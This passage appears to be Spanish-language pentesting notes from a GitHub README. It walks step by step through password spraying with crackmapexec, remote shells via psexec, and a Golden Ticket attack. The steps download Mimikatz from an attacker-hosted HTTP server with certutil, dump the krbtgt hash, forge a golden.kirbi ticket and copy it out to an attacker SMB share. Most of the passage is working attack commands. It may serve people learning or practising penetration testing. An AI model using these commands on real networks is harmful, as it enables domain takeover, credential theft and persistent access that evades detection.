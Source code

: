   ```
Teniendo usuario y contraseña de un servicio administrador, hacemos sprying con cme para ver todos los equipos con Pwned.<br>
```crackmapexec smb 192.168.10.0/24 -u 'NombreUsuario' -p 'Contraseña' ```
<br>
Finalmente, accedemos a la maquina con psexec.py<br>
```psexec.py dominio/usuario:contraseña@192.168.10.5 cmd.exe ```
<br><br>
  
## GOLDEN TICKET ATTACK
Un ataque de Golden Ticket es cuando un atacante puede comprometer una <b>Cuenta de Servicio de Distribución de Claves de Active Directory (KRBTGT)</b> y usarla para crear un Ticket Granting Ticket (TGT) de Kerberos. Si lo hace, les permitirá acceder a cualquier recurso en un dominio de Active Directory sin hacer sonar ninguna alarma.<br>
Habiendo obtenido acceso en el controlador de dominio, se usa una herramienta como Mimikatz para volcar el hash de la contraseña de la cuenta KRBTGT.<br>
Existen dos formas: <br>
<b>1:</b> Crear un <b>golden.kirbi</b> para después cargarlo con mimikatz a una máquina y poder tener 
privilegios de acceso a ese equipo.<br>
<b>2:</b> Usando <b>ticketer</b>, construyendo un archivo <i>.ccache</i> <br>

### Método 1: Golden.kirbi 
  
#### Dumpear Krbtgt 
Al dumpear el usuario krbtgt, estaremos capacitados para hacer ‘pass the hash’. <br>
<b>Paso previo:</b> Buscar archivo mimikatz.exe de 64 para subir a la víctima. Se sube la herramienta 
al equipo del DC para enumerarlo. <br>
<b>Paso 1:</b> En host del DC, moverse a cd <i>C:\Windows\Temp</i> <br><br>
  
<b>Paso 2:</b> Compartir servicio HTTP con Python <br>
  
```python3 -m http.server 8000```<br><br>

 <b> Paso 4:</b> Transferir archivo (desde la víctima)<br>
```certutil.exe -f -urlcache -split http://IPatacante:8000/mimikatz.exe mimikatz.exe ```<br><br>

  <b>Paso 5:</b> Ejecutar mimikatz.exe <br><br>

 <b> Paso 6:</b> Dumpear la info de krbtgt para realizar un PassTheTicket <br>
```lsadump::lsa /inject /name:krbtgt ```<br><br>

  <b>Paso 7:</b> guardamos en data.txt toda la info generada. Con ESC + i, respeta el sangrado. <br><br>

 <b> Paso 8:</b> Crear archivo .kirbi <br>
```kerberos::Golden /domain:dominio.local /sid:[sid] /rc4[hashNTLM] /user:[AdminUser] /ticket:golden.kirbi ```<br><br>

  <b>Paso 9:</b> Salimos de mimikatz y hacemos ‘dir’ para ver el golden.kirbi y nos lo transferimos <br>

Atacante: ```impacket-smbserver smbFolder $(pwd) -smb2support ```<br>
Víctima: ```copy golden.kirbi \\IPAtacante\smbFolder\golden.kirbi ```<br><br>

#### Acceder a los recursos privilegiados del DC
Siendo adminitradores del DC, podemos conectarnos a cualquier equipo: <br>
Subir a otro equipo el mimikat y el Golden.kirbi generado: <br><br>

  <b>Paso 1:</b> Conectamos al equipo y obteniendo una cmd <br>
```psexec.py dominio.local/Administrador:Password@IPvictima cmd.exe ```<br><br>

  <b>Paso 2:</b> Transferir mimikatz y Golden.kirbi. Nos movemos a <i>C:\Windows\Temp</i> para transferirlos
desde servidor HTTP. <br>
  ```